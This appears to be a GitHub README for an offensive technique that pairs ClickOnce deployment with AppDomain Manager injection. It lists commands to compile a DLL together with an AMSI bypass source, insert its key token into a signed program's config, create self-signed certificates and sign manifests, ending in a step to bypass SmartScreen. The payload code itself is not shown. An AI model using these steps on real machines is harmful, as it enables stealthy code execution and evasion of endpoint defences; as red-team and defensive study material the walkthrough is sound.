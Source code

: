 # ClickOnce + AppDomain Manager Injection 
ClickOnce + AppDomain Manager Injection

Based on https://github.com/Mr-Un1k0d3r/.NetConfigLoader

csc.exe /t:library /keyfile:key.snk /out:uevmonitor.dll uevmonitor.cs amsi.cs

[System.Reflection.AssemblyName]::GetAssemblyName("uevmonitor.dll").FullName            

uevmonitor, Version=0.0.0.0, Culture=neutral, PublicKeyToken=1bb626af4620f3e6

Add PublicKeyToken to Filehistory.exe.config

makecert -r -pe -n "CN=test" -ss CA -sr CurrentUser -a sha256 -cy authority -sky signature -sv cert.pvk CA.cer

pvk2pfx -pvk cert.pvk -spc CA.cer -pfx CA.pfx -po "test"

MageUI.exe

Create application manifest:

![image](https://github.com/weaselsec/Click-Once-App-Domain/assets/147257425/38a9d058-2d7e-4dca-a0cd-92979b5f346b)

Sign and save the application manifest:

![image](https://github.com/weaselsec/Click-Once-App-Domain/assets/147257425/83b0ddac-ff62-496f-a9a8-6b71163636d7)

Create deployment manifest:

![image](https://github.com/weaselsec/Click-Once-App-Domain/assets/147257425/9d76f5ca-4765-4e08-b9f3-2863b7b36035)

Add the application manifest:

![image](https://github.com/weaselsec/Click-Once-App-Domain/assets/147257425/75430ed5-4618-43c9-98a2-a5dce1308d9f)

Sign and save the deployment manifest:

![image](https://github.com/weaselsec/Click-Once-App-Domain/assets/147257425/faeaf363-9553-4104-ad9e-0378fb9bf9c7)

Launch the ClickOnce application to bypass Smart Screen:

![image](https://github.com/weaselsec/Click-Once-App-Domain/assets/147257425/3b903b58-2314-4e0f-9c3f-5a1a5d9aaee9)












